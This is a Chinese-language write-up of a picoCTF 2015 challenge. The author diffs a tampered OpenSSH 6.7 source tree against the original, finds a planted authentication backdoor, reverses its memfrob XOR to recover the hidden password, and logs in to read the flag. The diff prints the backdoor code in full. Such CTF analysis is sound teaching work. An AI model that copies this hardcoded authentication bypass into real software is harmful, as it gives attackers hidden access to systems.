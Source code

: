提示：hacker留了後門，也許你可以拿來和openssh原始碼做比較？
 * 下載openssh-6.7，並使用 diff 察看hacker改了什麼檔案：
```
$ diff openssh-6.7p1_pico openssh-6.7p1_origin/
diff openssh-6.7p1_pico/auth.c openssh-6.7p1_origin/auth.c
777,794d776
<
< static int frobcmp(const char *chk, const char *str) {
< 	int rc = 0;
< 	size_t len = strlen(str);
< 	char *s = xstrdup(str);
< 	memfrob(s, len);
<
< 	if (strcmp(chk, s) == 0) {
< 		rc = 1;
< 	}
<
< 	free(s);
< 	return rc;
< }
<
< int check_password(const char *password) {
< 	return frobcmp("CGCDSE_XGKIBCDOY^OKFCDMSE_XLFKMY", password);
< }
diff openssh-6.7p1_pico/auth.h openssh-6.7p1_origin/auth.h
214,215d213
< int check_password(const char *);
<
diff openssh-6.7p1_pico/auth-passwd.c openssh-6.7p1_origin/auth-passwd.c
115,117d114
< 	if (check_password(password)) {
< 		return ok;
< 	}
Only in openssh-6.7p1_pico: buildpkg.sh
Only in openssh-6.7p1_pico: config.h
Only in openssh-6.7p1_pico: config.log
Only in openssh-6.7p1_pico: config.status
Common subdirectories: openssh-6.7p1_pico/contrib and openssh-6.7p1_origin/contrib
Only in openssh-6.7p1_pico: Makefile
Common subdirectories: openssh-6.7p1_pico/openbsd-compat and openssh-6.7p1_origin/openbsd-compat
Only in openssh-6.7p1_pico: opensshd.init
Only in openssh-6.7p1_pico: openssh.xml
Common subdirectories: openssh-6.7p1_pico/regress and openssh-6.7p1_origin/regress
Common subdirectories: openssh-6.7p1_pico/scard and openssh-6.7p1_origin/scard
Only in openssh-6.7p1_pico: survey.sh
```
diff 告訴我們，hacker把authentication method 改成：
 * ```frobcmp("CGCDSE_XGKIBCDOY^OKFCDMSE_XLFKMY", password)```檢查通過，就能登入server
  * frobcmp 把加密後的password 和```"CGCDSE_XGKIBCDOY^OKFCDMSE_XLFKMY"```比較
  * 加密password的方法是：```memfrob(xstrdup(password), strlen(password))```
 * 看看 memfrob 做什麼：$ man memfrob
```
SYNOPSIS
       #define _GNU_SOURCE             /* See feature_test_macros(7) */
       #include <string.h>

       void *memfrob(void *s, size_t n);
DESCRIPTION
       The memfrob() function encrypts the first n bytes of the memory
       area s by exclusive-ORing each character with  the  number  42.
       The  effect can be reversed by using memfrob() on the encrypted
       memory area.

       Note that this function is not a proper encryption  routine  as
       the  XOR  constant  is  fixed,  and is suitable only for hiding
       strings.
```
 * 重點：**The  effect can be reversed by using memfrob() on the encrypted
 memory area.**
 * 所以，寫了一個gen_password.c，對```"CGCDSE_XGKIBCDOY^OKFCDMSE_XLFKMY"```做一次memfrob
  * 得到password = ```iminyourmachinestealingyourflags```
 * 拿去登入backdoor.picoctf.com：
```
$ ssh jon@backdoor.picoctf.com
jon@backdoor.picoctf.com's password:
Last login: Wed Jul 22 20:14:47 2015 from f053221121.adsl.alicedsl.de
jon@ip-10-45-162-116:~$ ls
flag.txt
jon@ip-10-45-162-116:~$ cat flag.txt
ssshhhhh_theres_a_backdoor
```
